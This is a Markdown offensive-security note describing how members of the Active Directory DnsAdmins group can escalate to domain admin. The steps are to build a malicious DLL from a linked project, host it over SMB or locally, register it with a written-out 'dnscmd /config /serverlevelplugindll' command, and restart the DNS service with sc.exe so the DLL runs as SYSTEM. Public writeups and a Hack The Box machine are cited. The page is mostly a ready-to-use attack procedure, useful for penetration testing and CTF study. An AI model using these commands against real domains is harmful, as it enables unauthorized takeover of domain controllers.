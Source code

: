 # `DnsAdmins` to `Domain Admins`

---

## Description

Windows Active Directory DNS server implementation allows any user in the `DnsAdmins` group (along with any user that has `Write` access to the DNS Server object) to configure the DNS server such that `NT AUTHORITY/SYSTEM` executes the DLL on the DNS server on startup. In situations where the DNS server often runs on the domain controller, this can lead to total domain takeover.

---

## Process

### 1. Generate the DLL

[This Github repository](https://github.com/kazkansouh/DNSAdmin-DLL) has an example Visual Studio project that can be used as a starting point. Modify line 34 in `DNSAdmin-DLL/DNSAdmin-DLL.cpp` to the path (can be UNC) of a text file containing commands to execute, one per line. Build the solution.

### 2. Make the DLL Available

Either via an SMB server that is reachable by the DNS server or upload directly to the DNS server.

### 3. Configure the DNS Service

Configure the DNS Service to run the DLL on startup.

```cmd
dnscmd $DNS_SERVER_FQDN_OR_IP /config /serverlevelplugindll: $PATH_TO_DLL
```

- `$DNS_SERVER_FQDN_OR_IP`: Since this command is generally being executed on the DNS server itself, can be `localhost`
- `$PATH_TO_DLL`: Can be a local or UNC path

### 4. (Optional) Restart the DNS Service

By default, members of the `DnsAdmins` group don't have the privilege to restart the DNS service. Instead, you'll just have to wait until it restarts organically. However, if you do have the permissions:

```cmd
sc.exe [$DNS_SERVER_FQDN_OR_IP] stop dns
sc.exe [$DNS_SERVER_FQDN_OR_IP] start dns
```

- `$DNS_SERVER_FQDN_OR_IP`: Omit if executing on the DNS server itself

This should result in the DNS server executing the DLL, which will cause it to execute each command in the command file specified in the DLL's source code.

---

## References

[Shay Ber's Original Report](https://medium.com/@esnesenon/feature-not-bug-dnsadmin-to-dc-compromise-in-one-line-a0f779b8dc83)

[HackTricks Page of DnsAdmins](https://book.hacktricks.xyz/windows/active-directory-methodology/privileged-accounts-and-token-privileges#dnsadmins)

[iredteam's Walkthrough](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/from-dnsadmins-to-system-to-domain-compromise)

[Hack the Box's Resolute](https://app.hackthebox.com/machines/Resolute)
